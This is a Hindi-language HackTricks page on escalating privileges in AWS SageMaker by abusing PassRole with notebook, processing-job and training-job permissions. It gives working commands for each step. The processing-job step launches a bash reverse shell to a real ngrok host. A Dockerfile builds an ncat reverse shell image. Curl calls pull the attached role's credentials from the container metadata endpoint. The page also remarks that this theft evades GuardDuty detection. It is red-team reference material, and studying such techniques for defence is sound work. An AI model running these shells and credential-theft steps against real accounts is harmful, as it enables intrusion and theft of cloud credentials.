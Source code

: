 # AWS - Sagemaker Privesc

<details>

<summary><strong>शून्य से नायक तक AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram group**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें.**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें।

</details>

## sagemaker

### `iam:PassRole`, `sagemaker:CreateNotebookInstance`, `sagemaker:CreatePresignedNotebookInstanceUrl`

इस हमले की प्रक्रिया में पहला कदम है **एक ऐसे रोल की पहचान करना जो SageMaker को इसे मानने के लिए भरोसा करता है** (sagemaker.amazonaws.com). एक बार यह हो जाने के बाद, हम निम्नलिखित कमांड चला सकते हैं ताकि उस रोल के साथ एक नया नोटबुक बनाया जा सके:
```
aws sagemaker create-notebook-instance --notebook-instance-name example \
--instance-type ml.t2.medium \
--role-arn arn:aws:iam::ACCOUNT-ID:role/service-role/AmazonSageMaker-ExecutionRole-xxxxxx
```
यदि सफल होते हैं, तो आपको AWS से प्रतिक्रिया में **नए नोटबुक इंस्टेंस का ARN** प्राप्त होगा। इसे स्पिन अप होने में **कुछ मिनट** लगेंगे, लेकिन एक बार हो जाने के बाद, हम निम्नलिखित कमांड चला सकते हैं ताकि हमें एक प्री-साइन्ड URL प्राप्त हो जिससे हम **अपने वेब ब्राउज़र के माध्यम से नोटबुक इंस्टेंस तक पहुँच सकें**। पहुँच प्राप्त करने के अन्य तरीके भी संभव हैं, लेकिन यह एकल अनुमति और एकल API कॉल है, इसलिए यह सरल लगा।
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
यदि यह इंस्टेंस पूरी तरह से स्पिन अप हो गया है, तो यह API कॉल एक **साइन्ड URL वापस करेगा जिसे हम अपने ब्राउज़र में विजिट कर सकते हैं** ताकि इंस्टेंस तक पहुँच सकें। एक बार जब मैं अपने ब्राउज़र में Jupyter पेज पर पहुँच जाता हूँ, तो मैं ऊपर दाईं ओर "Open JupyterLab" पर क्लिक करूँगा, जिसे निम्नलिखित स्क्रीनशॉट में देखा जा सकता है।

![](<../../../.gitbook/assets/image (15) (1) (1).png>)

अगले पेज से, "Launcher" टैब में सबसे नीचे तक स्क्रॉल करें। "Other" सेक्शन के अंतर्गत, "Terminal" बटन पर क्लिक करें, जिसे यहाँ देखा जा सकता है।

![](<../../../.gitbook/assets/image (27).png>)

टर्मिनल से हमारे पास कुछ विकल्प हैं, जिनमें से एक होगा कि सिर्फ **AWS CLI का उपयोग करें**। दूसरा विकल्प होगा कि **EC2 मेटाडेटा** सेवा से सीधे IAM रोल की क्रेडेंशियल्स को संपर्क करें और उन्हें एक्सफिल्ट्रेट करें।

GuardDuty के बारे में सोचा जा सकता है जब "उन्हें एक्सफिल्ट्रेट करें" ऊपर पढ़ते समय, हालांकि, हमें यहाँ GuardDuty की चिंता करने की जरूरत नहीं है। संबंधित GuardDuty फाइंडिंग है [“UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration”](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_unauthorized.html#unauthorized11), जो अलर्ट करेगा अगर एक रोल की क्रेडेंशियल्स EC2 इंस्टेंस से चुराई जाती हैं और कहीं और इस्तेमाल की जाती हैं। हमारे लिए सौभाग्य से, यह EC2 इंस्टेंस वास्तव में हमारे अकाउंट में नहीं है, बल्कि यह एक **AWS-स्वामित्व वाले अकाउंट में होस्ट किया गया मैनेज्ड EC2 इंस्टेंस है**। इसका मतलब है कि **हम इन क्रेडेंशियल्स को एक्सफिल्ट्रेट कर सकते हैं और हमारे लक्ष्य के GuardDuty डिटेक्टर्स को ट्रिगर करने की चिंता नहीं करनी चाहिए**।

**संभावित प्रभाव:** sagemaker सेवा रोल के लिए Privesc निर्दिष्ट।

### `sagemaker:CreatePresignedNotebookInstanceUrl`

पिछले उदाहरण के समान, अगर Jupyter **नोटबुक्स पहले से चल रही हैं** और आप उन्हें sagemaker:ListNotebookInstances के साथ लिस्ट कर सकते हैं (या किसी अन्य तरीके से उन्हें खोज सकते हैं)। आप **उनके लिए एक URL जनरेट कर सकते हैं, उन्हें एक्सेस कर सकते हैं, और पिछली तकनीक में बताए गए अनुसार क्रेडेंशियल्स चुरा सकते हैं**।
```bash
aws sagemaker create-presigned-notebook-instance-url \
--notebook-instance-name <name>
```
**संभावित प्रभाव:** sagemaker सेवा भूमिका से Privesc संलग्न।

### `sagemaker:CreateProcessingJob,iam:PassRole`

इन अनुमतियों वाला हमलावर **sagemaker को प्रोसेसिंगजॉब निष्पादित करने** के लिए बना सकता है जिससे sagemaker भूमिका जुड़ी होती है। हमलावर उस कंटेनर की परिभाषा को इंगित कर सकता है जो **AWS प्रबंधित ECS खाता उदाहरण** में चलाया जाएगा, और **संलग्न IAM भूमिका की साख चुरा** सकता है।
```bash
# I uploaded a python docker image to the ECR
aws sagemaker create-processing-job \
--processing-job-name privescjob \
--processing-resources '{"ClusterConfig": {"InstanceCount": 1,"InstanceType": "ml.t3.medium","VolumeSizeInGB": 50}}' \
--app-specification "{\"ImageUri\":\"<id>.dkr.ecr.eu-west-1.amazonaws.com/python\",\"ContainerEntrypoint\":[\"sh\", \"-c\"],\"ContainerArguments\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/14920 0>&1\\\"\"]}" \
--role-arn <sagemaker-arn-role>

# In my tests it took 10min to receive the shell
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI" #To get the creds
```
**संभावित प्रभाव:** sagemaker सेवा भूमिका के लिए Privesc निर्दिष्ट।

### `sagemaker:CreateTrainingJob`, `iam:PassRole`

इन अनुमतियों वाला हमलावर एक प्रशिक्षण नौकरी बना सकता है, **मनमाने कंटेनर को चलाते हुए** उसके साथ एक **भूमिका संलग्न** कर सकता है। इसलिए, हमलावर भूमिका की साखों को चुरा सकता है।

{% hint style="warning" %}
यह परिदृश्य पिछले एक से अधिक कठिन है क्योंकि आपको एक Docker इमेज बनानी होगी जो सीधे हमलावर को rev shell या creds भेजेगी (आप प्रशिक्षण नौकरी के कॉन्फ़िगरेशन में एक प्रारंभिक कमांड निर्दिष्ट नहीं कर सकते)।
```bash
# Create docker image
mkdir /tmp/rev
## Note that the trainning job is going to call an executable called "train"
## That's why I'm putting the rev shell in /bin/train
## Set the values of <YOUR-IP-OR-DOMAIN> and <YOUR-PORT>
cat > /tmp/rev/Dockerfile <<EOF
FROM ubuntu
RUN apt update && apt install -y ncat curl
RUN printf '#!/bin/bash\nncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh' > /bin/train
RUN chmod +x /bin/train
CMD ncat <YOUR-IP-OR-DOMAIN> <YOUR-PORT> -e /bin/sh
EOF

cd /tmp/rev
sudo docker build . -t reverseshell

# Upload it to ECR
sudo docker login -u AWS -p $(aws ecr get-login-password --region <region>) <id>.dkr.ecr.<region>.amazonaws.com/<repo>
sudo docker tag reverseshell:latest <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
sudo docker push <account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell:latest
```
{% endhint %}
```bash
# Create trainning job with the docker image created
aws sagemaker create-training-job \
--training-job-name privescjob \
--resource-config '{"InstanceCount": 1,"InstanceType": "ml.m4.4xlarge","VolumeSizeInGB": 50}' \
--algorithm-specification '{"TrainingImage":"<account_id>.dkr.ecr.<region>.amazonaws.com/reverseshell", "TrainingInputMode": "Pipe"}' \
--role-arn <role-arn> \
--output-data-config '{"S3OutputPath": "s3://<bucket>"}' \
--stopping-condition '{"MaxRuntimeInSeconds": 600}'

#To get the creds
curl "http://169.254.170.2$AWS_CONTAINER_CREDENTIALS_RELATIVE_URI"
## Creds env var value example:/v2/credentials/proxy-f00b92a68b7de043f800bd0cca4d3f84517a19c52b3dd1a54a37c1eca040af38-customer
```
**संभावित प्रभाव:** sagemaker सेवा भूमिका तक Privesc निर्दिष्ट।

### `sagemaker:CreateHyperParameterTuningJob`, `iam:PassRole`

इन अनुमतियों वाला हमलावर (संभवतः) एक **hyperparameter प्रशिक्षण नौकरी** बनाने में सक्षम होगा, जिस पर एक **मनमाना कंटेनर चल रहा होगा** और उससे एक **भूमिका संलग्न** होगी।\
_मैंने समय की कमी के कारण इसका शोषण नहीं किया है, लेकिन यह पिछले शोषणों के समान लगता है, शोषण विवरण के साथ PR भेजने के लिए स्वतंत्र महसूस करें।_

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ AWS हैकिंग सीखें</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>शून्य से हीरो तक</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें**, तो [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जाँच करें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा संग्रह विशेष [**NFTs**](https://opensea.io/collection/the-peass-family)
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)** का अनुसरण करें।**
* [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs भेजकर अपनी हैकिंग तरकीबें साझा करें।

</details>
